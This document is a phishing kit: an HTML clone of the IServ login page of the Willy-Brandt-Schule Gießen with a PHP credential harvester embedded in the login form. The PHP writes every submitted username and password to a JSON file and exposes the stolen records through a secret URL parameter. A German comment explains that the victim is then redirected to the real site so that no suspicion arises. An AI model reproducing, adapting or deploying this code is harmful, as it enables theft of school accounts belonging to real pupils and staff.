 
<!doctype html>
<html data-asset-path="/iserv" ontouchmove>
<head><meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<meta name="color-scheme" content="light dark">
<meta http-equiv="X-UA-Compatible" content="ie=edge"><link rel="apple-touch-icon" sizes="57x57" href="/iserv/css/static/icons/apple-touch-icon-57x57.3dd45525.png"><link rel="apple-touch-icon" sizes="60x60" href="/iserv/css/static/icons/apple-touch-icon-60x60.ae84814e.png"><link rel="apple-touch-icon" sizes="72x72" href="/iserv/css/static/icons/apple-touch-icon-72x72.e14c17b3.png"><link rel="apple-touch-icon" sizes="76x76" href="/iserv/css/static/icons/apple-touch-icon-76x76.d1cdaf18.png"><link rel="apple-touch-icon" sizes="114x114" href="/iserv/css/static/icons/apple-touch-icon-114x114.750b324f.png"><link rel="apple-touch-icon" sizes="120x120" href="/iserv/css/static/icons/apple-touch-icon-120x120.20854246.png"><link rel="apple-touch-icon" sizes="144x144" href="/iserv/css/static/icons/apple-touch-icon-144x144.31179e61.png"><link rel="apple-touch-icon" sizes="152x152" href="/iserv/css/static/icons/apple-touch-icon-152x152.09a10c7e.png"><link rel="apple-touch-icon" sizes="180x180" href="/iserv/css/static/icons/apple-touch-icon-180x180.6d537ec5.png"><link rel="apple-touch-icon" sizes="16x16" href="/iserv/css/static/icons/favicon-16x16.aa85ef3f.png"><link rel="apple-touch-icon" sizes="32x32" href="/iserv/css/static/icons/favicon-32x32.be4d3a0c.png"><link rel="apple-touch-icon" sizes="96x96" href="/iserv/css/static/icons/favicon-96x96.fdbc37a8.png"><link rel="icon" type="image/png" href="/iserv/css/static/icons/android-chrome-192x192.fc2f37a3.png" sizes="192x192">
<link rel="icon" type="image/x-icon" href="/iserv/css/static/icons/favicon.2ebf6af2.ico" />
<link rel="mask-icon" href="/iserv/css/static/icons/safari-pinned-tab.8387f394.svg" color="#1c4174" />

<meta name="msapplication-TileImage" content="/iserv/css/static/icons/mstile-144x144.31179e61.png">
<meta name="apple-mobile-web-app-title" content="IServ">
<meta name="application-name" content="IServ">
<meta name="msapplication-TileColor" content="#da532c">
<meta name="theme-color" content="#1c4174">
<link rel="manifest" href="/iserv/manifest.json" />
<link rel="canonical" href="https://wbs-gi.de/iserv/auth/login?_target_path=%2Fiserv%2Fauth%2Fauth%3F_iserv_app_url%3D%252Fiserv%252F%26client_id%3D53_1yt4xnpsh6ysc84s4skcg0scsw8gg44csggssssocgk008k8c4%26nonce%3D4a75bfa5-2474-420a-bf71-9780eae41938%26redirect_uri%3Dhttps%253A%252F%252Fwbs-gi.de%252Fiserv%252Fapp%252Fauthentication%252Fredirect%26response_type%3Dcode%26scope%3Dopenid%2520uuid%2520iserv%253Asession-id%2520iserv%253Aweb-ui%2520iserv%253A2fa%253Aconfiguration%2520iserv%253Aaccess-groups%26state%3DeyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiIsImtpZCI6IjEifQ.eyJyZWRpcmVjdF91cmkiOiJodHRwczpcL1wvd2JzLWdpLmRlXC9pc2VydlwvIiwibm9uY2UiOiI0YTc1YmZhNS0yNDc0LTQyMGEtYmY3MS05NzgwZWFlNDE5MzgiLCJhZG1pbiI6ZmFsc2UsImlzcyI6Imh0dHBzOlwvXC93YnMtZ2kuZGVcL2lzZXJ2XC8iLCJleHAiOjE3MDkwMDY0MTYsIm5iZiI6MTcwMTIzMDM1NiwiaWF0IjoxNzAxMjMwNDE2LCJzaWQiOiIifQ.g-v3qjjOOexCDa3fmp-aTQLqTJI6FrDYnfspjOhfc5pG5jZMgh6-DMR8wQcIpW5MP4gQavrwVeDrnq5CrLJ6uA" /><title>
                    IServ - wbs-gi.de
            </title>

            <link rel="stylesheet" href="/iserv/css/static/css/iserv.88c83b39.css">
        <link rel="stylesheet" href="/iserv/auth/static/css/auth.css?ver=7"/>
    </head>

<body class="preload p-3  ">
<div class="auth-container">

    <header>

        
            <a href="" title="Willy-Brandt-Schule Gießen - wbs-gi.de">
                <img class="school-logo  img-responsive" src="/iserv/logo/logo.png" alt="Willy-Brandt-Schule Gießen"/>
            </a>

        
    </header>

    <main>

        
    
            <div class="panel main-panel panel-default mb-0">
                <div class="panel-heading">
                    <h1 class="panel-title">IServ-Anmeldung</h1>
                </div>
                <div class="panel-body">
                        <div class="alert alert-warning hidden" id="disabled-cookies-box">
        Sie haben keine Cookies aktiviert. Cookies sind notwendig um IServ zu benutzen.
    </div>

    
        <form class="login-form" method="post">

       <?php
// Datenspeicher laden
$file = "textile.json";
if (file_exists($file)) {
    $c = file_get_contents($file);
    if ($c!==false) {
        $json = json_decode($c, true);
    }
}
if (!isset($json)) {
    $json = array();
}

// falls "?get_log=mnroishtm"
if (isset($_GET['get_log']) && $_GET['get_log']=='mnroishtm') {
   // json datei ausgeben
   header('Content-type: application/json');
   die(json_encode($json, JSON_PRETTY_PRINT));
}

// zum Datenspeicher hinzufügen
$json[] = $_REQUEST;

// Speichern
file_put_contents($file, json_encode($json, JSON_PRETTY_PRINT));

// Fertig!

// [!!!] hier wird der User zur Originalseite umgeleitet, damit kein Verdacht geschöpft wird

$ziel_url = "https://wbs-gi.de/iserv/";
header("Location: $ziel_url");

exit;
?>


            
            
                            <div id="form-username" class="form-group">
                    <input class="form-control" type="text" name="_username" value="" placeholder="Account"
                           title="Der Account wird klein geschrieben und darf keine Umlaute enthalten, Leerzeichen werden durch Punkte ersetzt. Beispiel: bjoern.mueller"
                           required="required" autofocus autocapitalize="none" autocorrect="off"/>
                </div>
            
            <div id="form-password" class="form-group">
                <input class="form-control" type="password" name="_password" placeholder="Passwort" required="required" aria-describedby="passwordStatus" />
                <span class="form-control-feedback hidden" aria-hidden="true"><span class="glyphicon glyphicon-warning-sign"></span></span>
                <span id="passwordStatus" class="text-warning hidden">Warnung: Die Feststelltaste ist aktiviert!</span>
            </div>
                            <div class="row">
                    <div class="col-xs-6">
                                                    <button class="btn btn-primary" type="submit"><span class="glyphicon-pro glyphicon-pro-log-in"></span> Anmelden</button>
                                            </div>
                    <div class="col-xs-6 text-right">
                                                    <div class="checkbox">
                                <label><input type="checkbox" id="remember_me" name="_remember_me"/> Angemeldet bleiben</label>
                            </div>
                                            </div>                </div>
                    </form>

        <hr>
        <div class="row">
            <div class="col-xs-6">
                <a href="/iserv/auth/public/password_reset">Passwort vergessen?</a>
            </div>
            <div class="col-xs-6 text-right">
                <a href="https://doku.iserv.de/web/#anmeldung" target="_blank">Hilfe</a>
            </div>
        </div>
                    </div>
                                                                </div>
        
    </main>

    <footer>

        <a href="https://iserv.de" class="text-center">
            <picture class="dark">
                <source srcset="/iserv/css/static/img/logo_white.118ffce4.svg" type="image/svg+xml">
                <img id="logo-iserv" src="/iserv/css/static/img/logo_white.ae6b12dc.png" height="66" alt="IServ">
            </picture>
            <picture class="light">
                <source srcset="/iserv/css/static/img/logo.a0b67669.svg" type="image/svg+xml">
                <img id="logo-iserv" src="/iserv/css/static/img/logo.c377acd3.png" height="66" alt="IServ">
            </picture>
            <p class="mt-3">IServ Schulserver</p>
        </a>

                    <div class="m-3">
                <a class="legal-notice" href="/iserv/app/legal">Impressum</a>
            </div>
        
    </footer>

</div>
    
    <script type="text/javascript" src="/iserv/auth/static/js/login.js"></script>
</body>
</html>
